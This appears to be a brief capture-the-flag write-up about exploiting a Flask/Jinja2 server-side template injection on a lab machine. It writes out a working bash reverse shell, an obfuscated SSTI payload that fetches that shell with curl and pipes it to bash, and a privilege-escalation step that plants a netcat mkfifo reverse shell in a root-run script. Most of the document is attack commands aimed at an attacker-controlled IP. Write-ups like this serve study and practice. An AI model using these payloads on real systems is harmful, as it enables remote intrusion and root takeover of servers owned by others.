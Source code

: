 # Initial

Set the URL and IP in /etc/hosts

# Reference

[This link](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

Without refering to the above I would not be able to get reverse shell to the machine

# Reverse Shell

#!/bin/bash
bash -c "bash -i >& /dev/tcp/IP/4444 0>&1"

then host the file with `python3 -m http.server 80`

# Payload

put the below into an image file and upload to the website
`{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.10.14.243/revshell | bash")|attr("read")()}}`

# Privilege Escalation

Make use of the `ssh-alert.sh` script in /usr/local/sbin by appending this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.243 4445 >/tmp/f` 

Then SSH to svc_acc with the private key acquired to trigger the script and get root
